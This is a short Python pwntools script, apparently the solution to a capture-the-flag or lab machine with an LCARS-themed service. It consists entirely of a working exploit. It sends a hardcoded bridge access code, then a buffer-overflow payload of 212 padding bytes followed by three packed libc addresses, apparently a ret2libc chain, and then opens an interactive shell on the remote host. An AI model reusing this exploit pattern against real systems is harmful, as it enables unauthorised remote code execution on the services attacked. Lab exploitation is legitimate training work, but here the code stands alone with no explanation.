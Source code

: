 ```python
from struct import pack

payload = b"A"*212
payload += pack('<I',0xf7e4c060)
payload += pack('<I',0xf7e3faf0)
payload += pack('<I',0xf7f6ddd5)

lcars = remote("10.10.10.61", 32812)
lcars.recvuntil("Enter Bridge Access Code:"); lcars.sendline("picarda1")
lcars.recvuntil("Waiting for input:"); lcars.sendline("4")
lcars.recvuntil("Enter Security Override:"); lcars.sendline(payload)
lcars.interactive()
```


